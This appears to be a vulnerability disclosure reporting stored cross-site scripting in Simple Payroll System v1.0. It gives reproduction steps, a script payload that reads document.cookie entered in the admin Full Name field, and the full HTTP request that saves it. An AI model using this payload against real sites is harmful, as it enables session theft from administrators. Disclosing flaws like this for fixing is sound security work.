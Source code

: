 # Simple Payroll System v1.0 by oretnom23 has Stored Cross Site Scripting

BUG_Author: lcg22266

vendors:https://www.sourcecodester.com/php/15167/simple-payroll-system-dynamic-tax-bracket-phpoop-and-mysql-free-source-code.html

#### Steps to reproduce

Access url address "http://ip/spms/admin/?page=admin" and Click "Add New"

![image](https://github.com/lcg-22266/bug_pic/blob/main/click.png)

Paste the below payload on Full Name fields and click Save

```
<script>alert(document.cookie)</script>
```

![image](https://github.com/lcg-22266/bug_pic/blob/main/xss.png)

Transmission packet

```
POST /spms/Actions.php?a=save_admin HTTP/1.1
Host: localhost
Content-Length: 80
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/spms/admin/?page=admin
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm
Connection: close

id=&fullname=%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E&username=a&type=1
```

When visiting http://ip/spms/admin/?page=admin executes payload

![image](https://github.com/lcg-22266/bug_pic/blob/main/session.png)




